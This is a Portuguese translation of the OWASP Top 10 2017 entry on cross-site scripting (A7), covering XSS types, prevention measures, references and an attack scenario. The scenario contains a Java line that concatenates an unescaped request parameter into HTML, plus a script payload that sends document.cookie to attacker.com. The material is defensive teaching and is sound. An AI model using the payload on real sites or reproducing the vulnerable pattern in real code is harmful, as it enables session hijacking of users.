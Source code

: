 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vetores de Ataque | Vulnerabilidades de Segurança | Impactos |
| -- | -- | -- |
| Nível de Acesso \| Explorabilidade 3 | Prevalência 3 \| Detectabilidade 3 | Técnico 2 \| Negócio |
| Ferramentas automatizadas podem detectar e explorar as três formas de XSS, e existem frameworks de exploits disponíveis gratuitamente. | XSS é o segundo problema mais prevalente no OWASP Top 10, e é encontrado em cerca de dois terços de todas as aplicações. As ferramentas automatizadas podem encontrar alguns problemas XSS automaticamente, particularmente em tecnologias maduras, como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para refletido e DOM XSS, e grave para XSS armazenado, com execução remota de código no navegador da vítima, como roubar credenciais, sessões ou entregar malwares à vítima. |

## A Aplicação está Vulnerável?

Existem três formas de XSS, geralmente visando os navegadores dos usuários:

* **XSS Refletido**: Sua aplicação ou API inclui entradas de usuário não validadas e não modificadas como parte da saída HTML. Um ataque bem sucedido pode permitir que o atacante execute HTML e JavaScript arbitrários no navegador da vítima. Normalmente, o usuário precisará interagir com algum link malicioso que aponte para uma página controlada pelo atacante, como sites maliciosos de *watering hole*, propagandas ou similares.
* **XSS Armazenado**: Sua aplicação ou API armazena entradas de usuário não sanitizadas que é vista mais tarde por outro usuário ou administrador. O XSS armazenado é frequentemente considerado de risco alto ou crítico.
* **DOM XSS**: Frameworks de JavaScript, aplicativos de uma única página (SPAs) e APIs que incluem dinamicamente dados controláveis pelo atacante para uma página são vulneráveis ao DOM XSS. Idealmente, sua aplicação não enviaria dados controláveis pelo atacante para APIs de JavaScript inseguras.

Ataques XSS típicos incluem o roubo de sessão, a aquisição de contas, *bypass* de MFA (MultiFactor Authentication), a substituição de nós DOM ou o desfiguramento (como os painéis de login de trojan), ataques contra o navegador do usuário, como downloads de software mal-intencionado, *key logging* e outros ataques do lado do cliente.

## Como Prevenir

Prevenir XSS requer a separação de dados não confiáveis do conteúdo ativo do navegador. Isso pode ser alcançado por:

* Use frameworks que automaticamente escapam o XSS por design, como os mais recentes Ruby on Rails, React JS. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Usar frameworks que automaticamente sanitizam o XSS por design, como Ruby on Rails e React JS mais recentes. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Sanitizar por *escape* dados de solicitação HTTP não confiáveis com base no contexto na saída HTML (corpo, atributo, JavaScript, CSS ou URL) irá resolver vulnerabilidades XSS refletidas e armazenadas. A [Folha de Dicas OWASP 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) contém detalhes sobre técnicas de *escape* de dados necessárias.
* Aplicar *encoding* sensível ao contexto ao modificar o documento do navegador no lado do cliente atua contra DOM XSS. Quando isso não puder ser evitado, técnicas de *escaping* sensíveis ao contexto semelhantes podem ser aplicadas às APIs do navegador, conforme descrito na Folha de Dicas OWASP 'DOM Based XSS Prevention'.
* Habilitar um [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) é um controle de mitigação de defesa profunda contra o XSS. É eficaz se não existem outras vulnerabilidades que permitiriam colocar códigos maliciosos através de arquivos locais (por exemplo, sobrescritas de *path traversal* ou bibliotecas vulneráveis em fontes permitidas).

## Exemplo de Cenários de Ataque

**Cenário 1**: A aplicação usa dados não confiáveis na construção do seguinte fragmento HTML sem validação ou *escaping*:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

O atacante modifica o parâmetro 'CC' no navegador para:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Este ataque faz com que a ID da sessão da vítima seja enviada para o site do invasor, permitindo que o invasor seqüestra a sessão atual do usuário.

**Nota**: Atacantes podem usar XSS para derrubar qualquer defesa CSRF automatizada que a aplicação possa empregar.

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externas

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)

